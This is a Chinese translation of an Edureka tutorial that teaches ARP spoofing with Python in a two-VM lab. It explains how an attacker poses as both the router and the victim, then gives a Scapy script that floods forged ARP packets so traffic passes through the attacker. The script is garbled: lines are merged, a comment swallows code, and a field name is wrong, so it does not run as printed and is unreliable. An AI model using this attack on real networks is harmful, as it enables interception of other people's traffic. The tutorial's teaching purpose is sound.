







# ARP 欺骗——用 Python 实现道德黑客的自动化

> 原文：<https://medium.com/edureka/python-arp-spoofer-for-ethical-hacking-58b0bbd81272?source=collection_archive---------1----------------------->



当你告诉别人你是一个有道德的黑客时，他们看着你就像你是一个巫师。好吧，这就是做一个有道德的黑客:有知识，有能力，有良心去做正确的事情！就像巫师的魔杖一样，Python 让有道德的黑客变得更加强大。在上一个教程中，您看到了如何使用 Python 编写 MacChanger。在本教程中，你将看到如何使用 Python 进行 **ARP 欺骗**。

我将讨论以下主题:

*   什么是 ARP 欺骗？
*   编写一个 ARP 欺骗器

我知道你们都在炒作自动化道德黑客，但首先，你应该知道什么是 ARP 欺骗。

# 什么是 ARP 欺骗？

现在每个人都在使用 WiFi，你也是其中之一。你知道当你连接到路由器时数据是如何流动的吗？您的系统和路由器附带有 IP 地址。当您连接到路由器时，数据流在两个 IP 地址之间流动。路由器向您系统的 IP 地址发送数据，您的系统也向路由器的 IP 地址发送数据。

**ARP 欺骗**是一种通过伪造 IP 地址将网络流量重定向到黑客的技术。太技术化？让我为你使它变得简单。当一个系统和路由器之间(基本上是两个 IP 地址之间)有连接时，黑客会伪造他/她的 IP 地址。黑客会告诉 1)路由器他/她是系统，2)系统他/她是路由器。现在路由器会把数据发给黑客而不是系统，系统会把数据发给黑客而不是路由器。因此，网络流经黑客。



现在我们知道了什么是 ARP 欺骗器，让我们用 Python 来构建它们吧！

# 编写一个 ARP 欺骗器

当我向您解释 ARP 欺骗时，我告诉过您它会重定向流量。要进行 ARP 欺骗，我们需要 3 个节点。一个是黑客节点，另外两个是系统，它们之间有一些通信。

对于本教程，我将使用虚拟机来创建节点。我将运行两台虚拟机，其中一台是黑客，另一台是受害者。第三个节点呢？嗯，那将是虚拟机连接到的路由器。

***我的设置如下:我有两台连接到路由器的虚拟机。***

在我们写一个 ARP 欺骗器之前，我们需要得到一些数据。因为黑客系统会伪造它的 IP 地址，我们应该知道路由器和受害者系统的 IP 地址和 MAC 地址。

要找到受害者和路由器的 IP 地址，从黑客的机器上运行以下命令:

```
$ arp -a
```

这将列出该网络中所有系统的 IP 地址和 MAC 地址。



这里，网关是路由器，对于这个演示，我将选择 IP 地址为 **192.168.111.157** 的系统作为受害者。

在我们运行 ARP 欺骗器之后，我们需要一种方法来验证我们的 ARP 欺骗器是否工作。在现实世界中，ARP 欺骗的成功/失败取决于黑客系统的输出。但是对于这个演示，我们将使它变得简单。由于我们正在运行虚拟机，我将切换到受害者系统并检查路由器的 MAC 地址。

为此，在受害者系统的终端中运行以下命令:

```
$ arp -a
```



查看路由器的 MAC 地址，这将在我们运行脚本后发生变化。

现在我们有了欺骗所需的数据，我们准备编写一个 ARP 欺骗器。

要写一个 ARP 欺骗的欺骗器，我们来运行 PyCharm。要启动 PyCharm，请转到 PyCharm 被解压缩的目录并运行 shell 脚本。

```
$ cd pycharm-community-2018.3.4/ 
$ cd bin/ 
$ ./pycharm.sh
```

您将看到 PyCharm 的欢迎屏幕。点击**“创建新项目”**



输入项目的名称。我将这个**命名为 arp_spoof。**然后点击**创建**。



你现在将看到工作场所。接下来，让我们创建一个 Python 文件。为此，右键单击项目名称，转到“**新建**”，然后单击“ **Python 文件**”。现在，您可以在这里编写 Python 脚本。

我正在编写的 ARP 欺骗器将使用 Python 的 **Scapy** 模块，这是一个包操作工具。

下面是 ARP 欺骗器的 Python 脚本:

```
import scapy.all as scapwhile True:
    packet = scap.ARP(op=1, pdst="192.168.111.157", hwaddr="00:0c:29:1e:76:af", psrc="192.168.111.2")
    scap.send(packet) #Packet telling the Victim (with ip address 192.168.111.157) that the hacker is the Router.packet = scap.ARP(op=1, pdst="192.168.111.2", hwaddr="00:50:56:e7:86:57", psrc="192.168.111.157")
    scap.send(packet) #Packet telling the Router (with ip address 192.168.111.2) that the hacker is the Victim.
```

运行此脚本，网络将被重定向。让我们来验证它是否真的有效。在受害者的系统中，运行以下命令:

```
$ arp -a
```



可以看到路由器 IP 的 MAC 地址被改成了黑客系统的 MAC 地址。这意味着网络被重定向到黑客，来自受害者系统的数据被黑客系统认为是路由器。

恭喜你！您已经用 Python 编写了一个 ARP 欺骗器，并看到了它的运行。如果你想查看更多关于人工智能、DevOps、云等市场最热门技术的文章，你可以参考 [Edureka 的官方网站。](https://www.edureka.co/blog/?utm_source=medium&utm_medium=content-link&utm_campaign=python-arp-spoofer-for-ethical-hacking)

请留意本系列中的其他文章，它们将解释网络安全的各个方面。

> 1.[什么是网络安全？](/edureka/what-is-cybersecurity-778feb0da72)
> 
> 2.[网络安全框架](/edureka/cybersecurity-framework-89bbab5aaf17)
> 
> 3.[隐写术教程](/edureka/steganography-tutorial-1a3c5214a00f)
> 
> 4.[什么是网络安全？](/edureka/what-is-network-security-1f659407dcc)
> 
> 5.[什么是计算机安全？](/edureka/what-is-computer-security-c8eb1b38de5)
> 
> 6.[什么是应用安全？](/edureka/application-security-tutorial-e6a0dda25f5c)
> 
> 7.[渗透测试](/edureka/what-is-penetration-testing-f91668e2291a)
> 
> 8.[道德黑客教程](/edureka/ethical-hacking-tutorial-1081f4aacc53)
> 
> 9.[关于 Kali Linux 你需要知道的一切](/edureka/ethical-hacking-using-kali-linux-fc140eff3300)
> 
> 10.[使用 Python 的道德黑客](/edureka/ethical-hacking-using-python-c489dfe77340)
> 
> 11. [DDOS 攻击](/edureka/what-is-ddos-attack-9b73bd7b9ba1)
> 
> 12.[使用 Python 的 MAC changer](/edureka/macchanger-with-python-ethical-hacking-7551f12da315)
> 
> 13 [什么是密码学？](/edureka/what-is-cryptography-c94dae2d5974)
> 
> 14. [Proxychains，Anonsurf & MacChange](/edureka/proxychains-anonsurf-macchanger-ethical-hacking-53fe663b734)
> 
> 15.[足迹](/edureka/footprinting-in-ethical-hacking-6bea07de4362)
> 
> 16.[50 大网络安全面试问答](/edureka/cybersecurity-interview-questions-233fbdb928d3)

最初发表于 2019 年 3 月 4 日 www.edureka.co。